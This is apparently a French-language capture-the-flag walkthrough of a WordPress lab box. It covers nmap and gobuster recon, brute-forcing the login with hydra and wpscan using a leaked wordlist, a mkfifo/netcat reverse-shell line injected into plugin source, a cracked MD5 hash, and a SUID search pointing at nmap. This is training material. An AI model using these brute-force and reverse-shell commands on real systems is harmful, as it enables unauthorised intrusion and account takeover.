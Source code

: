 # recon
```
nmap -Pn -sVC 10.10.81.228 
```
	22/tcp  closed ssh                                                                                                                                                                                               
	80/tcp  open   http     Apache httpd
	|_http-server-header: Apache
	|_http-title: Site doesn't have a title (text/html).
	443/tcp open   ssl/http Apache httpd
	|_http-title: Site doesn't have a title (text/html).
	| ssl-cert: Subject: commonName=www.example.com
	| Not valid before: 2015-09-16T10:45:03
	|_Not valid after:  2025-09-13T10:45:03
	|_http-server-header: Apache

```
gobuster dir  -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.81.228
```
	/0                    (Status: 301) [Size: 0] [--> http://10.10.54.162/0/]
	/0000                 (Status: 301) [Size: 0] [--> http://10.10.54.162/0000/]
	/Image                (Status: 301) [Size: 0] [--> http://10.10.54.162/Image/]
	/admin                (Status: 301) [Size: 234] [--> http://10.10.54.162/admin/]
	/atom                 (Status: 301) [Size: 0] [--> http://10.10.54.162/feed/atom/]
	/audio                (Status: 301) [Size: 234] [--> http://10.10.54.162/audio/]
	/blog                 (Status: 301) [Size: 233] [--> http://10.10.54.162/blog/]
	/css                  (Status: 301) [Size: 232] [--> http://10.10.54.162/css/]
	/dashboard            (Status: 302) [Size: 0] [--> http://10.10.54.162/wp-admin/]
	/favicon.ico          (Status: 200) [Size: 0]
	/feed                 (Status: 301) [Size: 0] [--> http://10.10.54.162/feed/]
	/image                (Status: 301) [Size: 0] [--> http://10.10.54.162/image/]
	/images               (Status: 301) [Size: 235] [--> http://10.10.54.162/images/]
	/js                   (Status: 301) [Size: 231] [--> http://10.10.54.162/js/]
	/license              (Status: 200) [Size: 309]
	/login                (Status: 302) [Size: 0] [--> http://10.10.54.162/wp-login.php]
	/page1                (Status: 301) [Size: 0] [--> http://10.10.54.162/]
	/phpmyadmin           (Status: 403) [Size: 94]
	/rdf                  (Status: 301) [Size: 0] [--> http://10.10.54.162/feed/rdf/]
	/readme               (Status: 200) [Size: 64]
	/robots               (Status: 200) [Size: 41]
	/robots.txt           (Status: 200) [Size: 41]
	/rss                  (Status: 301) [Size: 0] [--> http://10.10.54.162/feed/]
	/rss2                 (Status: 301) [Size: 0] [--> http://10.10.54.162/feed/]
	/sitemap.xml          (Status: 200) [Size: 0]
	/sitemap              (Status: 200) [Size: 0]
	/video                (Status: 301) [Size: 234] [--> http://10.10.54.162/video/]
	/wp-config            (Status: 200) [Size: 0]
	/wp-content           (Status: 301) [Size: 239] [--> http://10.10.54.162/wp-content/]
	/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.54.162/wp-admin/]
	/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.54.162/wp-includes/]
	/wp-login             (Status: 200) [Size: 2664]

page de connexion et robots.txt trouvé : 
http://10.10.54.162/wp-login/

```
curl http://10.10.34.83/robots.txt
```
	User-agent: *
	fsocity.dic
	key-1-of-3.txt

`fsocity.dic` est une liste de mots qui serras utiliser les attaques par dictionnaires

# exploitation
## Attack par dic sur page de login

```
hydra -L fsocity.dic -p test 10.10.81.228 http-form-post '/wp-login.php?action=lostpassword:user_login=^PASS^&wp-submit=Get New Password:F=Invalid username or e-mail.'
```
```
 hydra -L fsocity.dic -p test $ip http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username' 
```
	[80][http-post-form] host: 10.10.62.202   login: Elliot   password: test

Trier le dictionnaire en suppriment les doublons
```
cat fsocity.dic|sort -u | uniq > fsocity.dic.m
```

```
wpscan --url $ip -P /home/kali/Desktop/Chall/thm/fsocity.dic.m -U Elliot
```
	[!] Valid Combinations Found:
	 | Username: Elliot, Password: ER28-0652

injection de code dans le code source d'un plugin
```
system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.153.190 1234 >/tmp/f");
```

# foothold
$ cat /home/robot/password.raw-md5
	robot:c3fcd3d76192e4007dfb496cca67e13b
hashCracked = 
```
abcdefghijklmnopqrstuvwxyz
```

```
find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```
	-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
	-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
	-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
	-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
	-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
	-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
	-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
	-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
	-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
	-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
	-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
	-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
	-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
	-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
	-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
	-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
	-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown

La présence de nmap n'est pas habituelle
$ ip a
	2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
	    link/ether 02:99:91:2d:7f:55 brd ff:ff:ff:ff:ff:ff
	    inet 10.10.146.156/16 brd 10.10.255.255 scope global eth0
